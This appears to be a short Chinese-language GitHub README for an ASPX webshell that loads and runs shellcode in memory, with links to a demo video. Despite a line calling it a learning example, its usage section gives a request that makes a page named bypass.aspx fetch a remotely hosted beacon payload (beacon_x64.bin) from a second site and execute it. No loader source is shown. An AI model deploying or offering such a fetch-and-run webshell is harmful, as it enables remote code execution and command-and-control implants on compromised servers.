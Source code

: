 





ASPX内存执行shellcode

这只是个代码例子，目的是为了学习



## 使用

将shellcode远程托管到任意网站（URLB）

```
http://URLA/bypass.aspx?shellcodeURL=http://URLB/beacon_x64.bin
```



视频

![](https://github.com/INotGreen/Webshell-loader/blob/main/video/demo.mp4)

![演示视频](https://github.com/INotGreen/Webshell-loader/blob/main/video/demo.mp4)